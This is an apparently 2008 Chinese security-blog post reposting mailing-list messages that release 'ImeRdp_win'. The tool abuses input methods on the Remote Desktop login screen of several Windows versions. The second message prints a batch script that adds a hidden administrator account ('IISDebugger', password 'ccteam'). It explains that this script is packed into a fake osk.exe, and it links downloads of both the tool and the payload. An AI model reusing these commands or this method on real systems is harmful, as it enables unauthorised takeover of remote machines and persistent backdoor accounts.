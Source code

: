 ```yaml
---
title: "[C.C.T] ImeRdp_win 内部发行 及 ImeRdp 2003输入法利用录像"
description: 远程桌面中开启指定输入法.受影响系统有
date: 2008-02-14 13:29:47
category: 安全工具
tags: ['工具共享', 'exploit']
post_id: 369
alias: C.C.T-ImeRdp_win
ViewNums: 4442
---
```


幻影的maillist上看到的，2个原文转来

**[C.C.T] ImeRdp_win 内部发行**

 **From:** cnqing**To:** cncert**Sent:** 2008-02-13, 00:11:09**Subject:** [C.C.T] ImeRdp_win 内部发行 亲爱的各位!    win下的ImeRdp今天正式在邮件列表发布了！     软件功能:    远程桌面中开启指定输入法.    受影响系统有:        vista                                         绝大多数第三方输入法可以利用        win2003 sp2                             已发现极点中文,，拼音加加可以利用        win2003        winxp sp2        winxp        win2000 sp4
    相关内容参考：《windows再曝输入法安全风险》  一文    内置console和gui版,    gui版需要.net支持！    请不要用于非法用途！ 下载地址：<http://www.virhost.net/up_files/soft/imerdp_win.rar.mdb>

**[C.C.T] ImeRdp 2003输入法利用录像**

2003的利用相对要麻烦一些
动画可能比较长,或者出现错误,见谅.
没时间写太多说明.仔细看下吧.

过程中需要的osk.exe 内容是由下面的bat转换而来

net user IISDebugger "ccteam" /add
net localgroup administrators IISDebugger /add

演示地址:<http://www.virhost.net/up_files/soft/imerdp.html>
相关工具osk.exe 下载地址:<http://www.virhost.net/up_files/soft/osk.exe.mdb>

cncert.net 网站目前不能访问,给大家带来的不便请谅解.过几天维护人员来了后就好了.
旧的软件和文章可以在备用站
www.virhost.net  查阅和下载.

